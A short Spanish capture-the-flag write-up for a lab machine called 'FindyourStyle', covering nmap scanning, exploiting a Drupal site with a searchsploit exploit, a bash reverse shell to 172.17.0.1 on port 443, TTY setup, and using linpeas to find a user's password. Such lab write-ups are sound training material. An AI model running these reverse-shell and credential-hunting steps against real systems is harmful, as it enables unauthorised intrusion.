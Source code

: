 ### Maquina FindyourStyle

## Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.1

![alt text](image.png)

## Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p80 -vvv -Pn 172.17.0.1

## Entramos en la web:

Me di cuenta que se trata de un CMS Drupal

![alt text](image-1.png)

aplicando whatweb para ver la version:

![alt text](image-2.png)

busque un exploit en searchsploit

![alt text](image-3.png)

descargué el exploit

![alt text](image-4.png)

ejecuté el exploit pero tenía mal control, entonces hice un rev.sh en mi kali con el siguiente codigo:

![alt text](image-5.png)

![alt text](image-6.png)

bash -i >& /dev/tcp/172.17.0.1/443 0>&1

luego levvante un servidor http con python y lo comparti con curl

![alt text](image-7.png)

me puse en escucha con netcat por el puerto 443

tratamiento de la tty

script /dev/null -c bash
ctrl + z
ctrl + z
reset
xterm
export TERM=xterm
export SHELL=bash


hice un cat /etc/passwd | grep bash

![alt text](image-8.png)

usando linpeas

encontramos la password del usuario ballenita

![alt text](image-9.png)

cambiamos al usuario ballenita

![alt text](image-10.png)

## Escalar privilegios

![alt text](image-11.png)